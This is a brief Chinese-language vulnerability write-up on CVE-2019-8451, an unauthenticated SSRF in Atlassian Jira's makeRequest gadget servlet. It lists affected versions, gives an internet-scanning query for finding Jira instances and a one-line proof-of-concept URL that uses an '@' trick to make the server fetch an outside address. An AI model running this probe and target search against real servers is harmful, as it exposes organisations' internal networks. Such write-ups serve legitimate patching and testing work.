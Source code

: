 # Atlassian Jira makeRequest SSRF漏洞 CVE-2019-8451

## 漏洞描述

Jira的 /plugins/servlet/gadgets/makeRequest资源存在SSRF漏洞，原因在于JiraWhitelist这个类的逻辑缺陷，成功利用此漏洞的远程攻击者可以以Jira服务端的身份访问内网资源。经分析，此漏洞无需任何凭据即可触发。

## 漏洞影响

```
Atlassian Jira <8.4.0
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](images/202205241427027.png)

验证POC

```
/plugins/servlet/gadgets/makeRequest?url=http://目标IP@www.baidu.com/robots.txt
```

![](images/202205241427776.png)